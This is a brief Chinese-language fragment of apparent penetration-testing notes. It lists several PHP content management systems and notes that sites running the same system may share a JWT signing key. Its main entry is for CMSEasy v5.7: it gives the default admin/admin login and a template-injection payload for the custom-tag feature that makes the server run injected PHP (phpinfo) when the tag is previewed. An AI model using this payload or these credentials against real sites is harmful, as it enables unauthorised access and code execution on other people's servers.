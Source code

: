 phpcms：
帝国cms
苹果cms
Drupal
wordpress
discuz


同一套系统的不同站点的jwt加密密钥可能相同。


^
#### **cmseasy php系统v5.7**
admin/admin
后台模板-自定义标签，使用payload，预览即可。
```
1111";}<?php phpinfo() ?>
```